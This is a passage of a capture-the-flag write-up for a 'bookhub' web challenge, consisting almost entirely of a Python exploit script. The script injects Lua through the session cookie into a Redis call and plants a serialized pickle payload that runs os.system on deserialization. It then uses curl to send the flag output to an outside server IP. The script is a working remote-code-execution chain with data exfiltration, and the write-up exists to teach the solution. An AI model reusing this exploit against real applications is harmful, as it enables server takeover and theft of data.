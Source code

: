 My final payload was to do a `redis.call("SET", "bookhub:session:hacker", {pickle RCE code serialized})` and then send a GET request to "/login/" to make sure our serialized object is deserialized.

Here is my final script which sends the flag to my server (I used lua's string.char() function to send non readable bytes because URL encoding was fucking me over)

```python
import requests
from bs4 import BeautifulSoup
import pickle
import os
import sys
import base64

COMMAND = '/usr/bin/curl -X POST "http://199.247.28.91/hacked" -d "$(/readflag|base64)"'

class PickleRce(object): #credits to https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd
    def __reduce__(self):
        return (os.system,(COMMAND,))

hax = pickle.dumps(PickleRce())

ans = "string.char("
for char in hax:
	ans += "{},".format(ord(char))

ans = ans[:-1] + ")"

cmd = 'hacker"}} redis.call("SET", "bookhub:session:hacker", {hack})--'.format(hack=ans)
LOCAL = True

if LOCAL:
	CSRF = BeautifulSoup(requests.get("http://127.0.0.1:5000/login/", cookies={'bookhub-session':cmd}).text, 'lxml').find('input', {'name':'csrf_token'}).get('value')
	print requests.post("http://127.0.0.1:5000/admin/system/refresh_session/", cookies={'bookhub-session':cmd}, data={'submit':'1', 'csrf_token':CSRF}).text
	requests.get("http://127.0.0.1:5000/login/", cookies={'bookhub-session':'hacker'})
else:
	CSRF = BeautifulSoup(requests.get("http://18.213.16.123:5000/login/", cookies={'bookhub-session':cmd}).text, 'lxml').find('input', {'name':'csrf_token'}).get('value')
	print requests.post("http://18.213.16.123:5000/admin/system/refresh_session/", cookies={'bookhub-session':cmd}, data={'submit':'1', 'csrf_token':CSRF}).text
	requests.get("http://18.213.16.123:5000/login/", cookies={'bookhub-session':'hacker'})
	```
